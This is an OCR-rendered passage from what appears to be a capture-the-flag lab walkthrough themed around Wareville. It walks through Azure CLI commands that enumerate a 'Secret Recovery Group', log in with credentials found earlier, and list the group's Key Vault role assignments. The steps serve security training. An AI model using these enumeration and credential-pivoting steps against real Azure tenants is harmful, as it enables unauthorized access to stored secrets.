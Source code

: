 Azure Cloud Shell

```javascript
           usr-xxxxxxxx [ ~ ]$ az ad group member list --group "Secret Recovery Group"
[
  {
    "@odata.type": "#microsoft.graph.user",
    "businessPhones": [],
    "displayName": "wvusr-backupware",
    ---REDACTED FOR BREVITY---
  }
]

```

 \n Given the previous output, it looks like everything makes a little sense now. All of the previous commands seem to point to the`wvusr-backupware` account. Since we have seen a potential set of credentials, let's jump to another user by clearing the current Azure CLI account session and logging in with the new account.

Azure Cloud Shell

```javascript
           usr-xxxxxxxx [ ~ ]$ az account clear
usr-xxxxxxxx [ ~ ]$ az login -u EMAIL -p PASSWORD

```

 \n **Note:** Replace the values with the actual email and password of the newly discovered account.

**Azure Role Assignments** \n

Since the `wvusr-backupware` account belongs to an interesting group, the Glitch's first hunch is to see whether sensitive or privileged roles are assigned to the group. And his thought was, "It doesn't make sense to name it like this if it can't do anything, right McSkidy?". But before checking the assigned roles, let's have a quick run-through of Azure Role Assignments.

**Azure Role Assignments** define the resources that each user or group can access. When a new user is created via Entra ID, it cannot access any resource by default due to a lack of role. To grant access, an administrator must assign a **role** to let users view or manage a specific resource. The privilege level configured in a role ranges from read-only to full-control. Additionally, **group members can inherit a role**when assigned to a group. \n

Returning to the Azure enumeration, let's see if a role is assigned to the Secret Recovery Group. We will be using the `--all` option to list all roles within the Azure subscription, and we will be using the `--assignee` option with the group's ID to render only the ones related to our target group.

Azure Cloud Shell

```javascript
           usr-xxxxxxxx [ ~ ]$ az role assignment list --assignee REPLACE_WITH_SECRET_RECOVERY_GROUP_ID --all
[
  {
    ---REDACTED FOR BREVITY---
    "principalName": "Secret Recovery Group",
    "roleDefinitionName": "Key Vault Secrets User",
    "scope": "/subscriptions/{subscriptionId}/resourceGroups/rog-aoc-kv/providers/Microsoft.KeyVault/vaults/warevillesecrets",
    ---REDACTED FOR BREVITY---
  },
  {
    ---REDACTED FOR BREVITY---
    "principalName": "Secret Recovery Group",
    "roleDefinitionName": "Key Vault Reader",
    "scope": "/subscriptions/{subscriptionId}/resourceGroups/rog-aoc-kv/providers/Microsoft.KeyVault/vaults/warevillesecrets",
    ---REDACTED FOR BREVITY---
```